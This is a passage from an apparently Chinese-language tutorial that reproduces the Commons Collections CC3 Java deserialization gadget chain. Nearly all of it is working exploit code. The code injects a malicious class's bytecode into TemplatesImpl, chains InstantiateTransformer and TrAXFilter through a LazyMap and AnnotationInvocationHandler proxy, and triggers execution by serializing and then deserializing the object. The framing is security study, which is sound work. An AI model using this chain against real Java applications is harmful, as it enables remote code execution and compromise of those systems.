        nameFiedld.setAccessible(true);  
        nameFiedld.set(templates, "name");  
  
        Field bycodeField = templateClass.getDeclaredField("_bytecodes");  
        bycodeField.setAccessible(true);  
        byte[] evil = Files.readAllBytes(Paths.get("D:\\java_code\\cc3_demo\\target\\classes\\org\\example\\Eval.class"));  
        byte[][] codes = new byte[][]{evil};  
        bycodeField.set(templates, codes);  
  
        Field _factory = templateClass.getDeclaredField("_tfactory");  
        _factory.setAccessible(true);  
        _factory.set(templates, new TransformerFactoryImpl());  
  
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});  
        instantiateTransformer.transform(TrAXFilter.class);  
    }  
  
}
```



然后就回到了查找transformer方法调用处，可以直接套用cc1前半部分链子
```java
package org.example;  
  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.map.LazyMap;  
import org.apache.commons.collections.map.TransformedMap;  
  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.*;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
  public static void main(String[] args) throws Exception {  
    TemplatesImpl templates = new TemplatesImpl();  
    Class templatesClass = templates.getClass();  
    Field nameField = templatesClass.getDeclaredField("_name");  
    nameField.setAccessible(true);  
    nameField.set(templates, "Drunkbaby");  
  
    Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
    bytecodesField.setAccessible(true);  
    byte[] evil = Files.readAllBytes(Paths.get("D:\\java_code\\cc3_demo\\src\\main\\java\\org\\example\\Eval.class"));  
    byte[][] codes = {evil};  
    bytecodesField.set(templates, codes);  
  
    Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
    tfactoryField.setAccessible(true);  
    tfactoryField.set(templates, new TransformerFactoryImpl());  
    // 创建 InstantiateTransformer 实例，调用其 transform 方法时会使用 Templates 参数生成新的 Transformer    InstantiateTransformer instantiateTransformer = new InstantiateTransformer(  
        new Class[]{Templates.class}, new Object[]{templates}  
    );  
    Transformer[] transformers = new Transformer[]{  
              new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数  
              instantiateTransformer  
      };  
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
      HashMap<Object, Object> hashMap = new HashMap<>();  
      Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
      Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
      Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
      declaredConstructor.setAccessible(true);  
      InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
      Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
              , new Class[]{Map.class}, invocationHandler);  
      Object o = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
      serialize(o);  
      unserialize("ser.bin");  
  }  
  
  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        oos.writeObject(obj);  
    }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
        Object obj = ois.readObject();  
        return obj;  
    }  
  
		}
```



至此cc3链复现完成。